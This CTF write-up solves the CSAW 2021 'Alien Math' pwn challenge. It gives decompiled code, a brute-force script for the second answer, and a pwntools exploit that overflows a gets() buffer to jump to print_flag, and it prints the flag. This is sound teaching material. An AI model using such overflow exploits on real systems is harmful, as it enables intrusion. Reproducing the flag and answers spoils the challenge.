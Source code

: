+++
title = "CSAW CTF Qualification Round 2021 - Alien Math"
date = 2021-09-14
[taxonomies]
categories = ["ctfs"]
tags = ["csawctf2021", "pwn"]
+++

# Alien Math

## Task description

Brush off your Flirbgarple textbooks!

[alien_math](/files/csawctf2021/alien_math)

## Solution

The application asks 3 questions and while the first two are implemented correctly the 3rd uses `gets`. So, we have to correctly answer to the first two questions and then just do a simple stack buffer overflow. In addition, there's a function called print_flag which prints the flag.

```c
undefined8 main(void)
{
  int iVar1;
  undefined local_38 [36];
  int local_14;
  long local_10;

  puts("\n==== Flirbgarple Math Pop Quiz ====");
  puts("=== Make an A to receive a flag! ===\n");
  puts("What is the square root of zopnol?");
  fflush(stdout);
  __isoc99_scanf(&DAT_0040220b,&local_14);
  iVar1 = rand();
  local_10 = (long)iVar1;
  if (local_10 == (long)local_14) {
    puts("Correct!\n");
    fflush(stdout);
    getchar();
    puts("How many tewgrunbs are in a qorbnorbf?");
    fflush(stdout);
    __isoc99_scanf(&DAT_00402247,local_38);
    second_question(local_38);
  }
  else {
    puts("Incorrect. That\'s an F for you!");
  }
  return 0;
}
```

The first question does `rand()` without setting the seed and the default seed value is 0 (not always, it depends on the implementation). So it's a constant.

```c
void second_question(char *param_1)
{
  char cVar1;
  int iVar2;
  size_t __n;
  ulong uVar3;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  int local_1c;

  local_1c = 0;
  while( true ) {
    uVar3 = SEXT48(local_1c);
    __n = strlen(param_1);
    if (__n - 1 <= uVar3) {
      local_38 = 3762247539570849591;
      local_30 = 3689067348388623672;
      local_28 = 58489707246130;
      __n = strlen((char *)&local_38);
      iVar2 = strncmp((char *)&local_38,param_1,__n);
      if (iVar2 == 0) {
        puts("Genius! One question left...\n");
        final_question();
        puts("Not quite. Double check your calculations.\nYou made a B. So close!\n");
      }
      else {
        puts("You get a C. No flag this time.\n");
      }
      return;
    }
    if ((param_1[local_1c] < '0') || ('9' < param_1[local_1c])) break;
    cVar1 = param_1[(long)local_1c + 1];
    iVar2 = second_question_function
                      ((ulong)(uint)(int)param_1[local_1c],
                       (ulong)(uint)(param_1[local_1c] + local_1c),
                       (ulong)(uint)(param_1[local_1c] + local_1c));
    iVar2 = (int)cVar1 + -0x30 + iVar2;
    param_1[(long)local_1c + 1] = (char)iVar2 + (char)(iVar2 / 10) * -10 + '0';
    local_1c = local_1c + 1;
  }
  puts("Xolplsmorp! Invalid input!\n");
  puts("You get a C. No flag this time.\n");
  return;
}

ulong second_question_function(int param_1,int param_2)
{
  return (ulong)((uint)((param_1 + -0x30) * 0x30 + (param_2 + -0x30) * 0xb + -4) % 10);
}
```

The second question takes a line, does some operations on it and compares with the hardcoded value. The decompiled code is a bit of a bad quality but it could be summarized to this pseudocode:

```py3
input_str = "12345" # only numbers are allowed
for i in range(len(input_str) - 1):
    input_str[i + 1] = do_something(input_str[i], input_str[i + 1])

if input_str == "7759406485255323229225":
    final_question()
```

Which means that we can bruteforce it easily. A thing to note is that the first letter has to be 7 because it can't be modified (modifications start from index 1).

```py3
from string import digits


def second_func(a, b):
    return ((a - 0x30) * 0x30 + (b - 0x30) * 0xB - 4) % 10


def encrypt(input_str):
    input_str = [ord(c) for c in input_str]

    for i in range(len(input_str) - 1):
        c1 = input_str[i + 1]
        c2 = second_func(input_str[i], input_str[i] + i)

        c3 = c1 - 0x30 + c2

        input_str[i + 1] = c3 - (c3 // 10) * 10 + ord("0")

    input_str = [chr(i) for i in input_str]

    return "".join(input_str)


solutions = ["7"]
encrypted = "7759406485255323229225"

for i in range(len(encrypted) - 1):
    new_solutions = []
    for p in solutions:
        for s in digits:
            o = encrypt(p + s)
            if encrypted.startswith(o):
                new_solutions.append(p + s)

    solutions = new_solutions

print(solutions)
```

```c
void final_question(void)
{
  undefined8 local_18;
  undefined8 local_10;

  local_18 = 0;
  local_10 = 0;
  puts(
      "How long does it take for a toblob of energy to be transferred between two quantum entangledsalwzoblrs?"
      );
  fflush(stdout);
  getchar();
  gets((char *)&local_18);
  return;
}
```

The final exploit.

```py3
from pwn import *

# io = process("./alien_math")
io = remote("pwn.chal.csaw.io", 5004)

io.sendline("1804289383".encode())  # first question

io.sendline("7856445899213065428791".encode())  # second question

payload = b"A" * cyclic_find(0x61616167)
payload += p64(0x004014FB)  # print_flag function address
io.sendline(payload)

io.interactive()
```

The flag: `flag{w3fL15n1Rx!_y0u_r34lLy_4R3_@_fL1rBg@rpL3_m4573R!}`

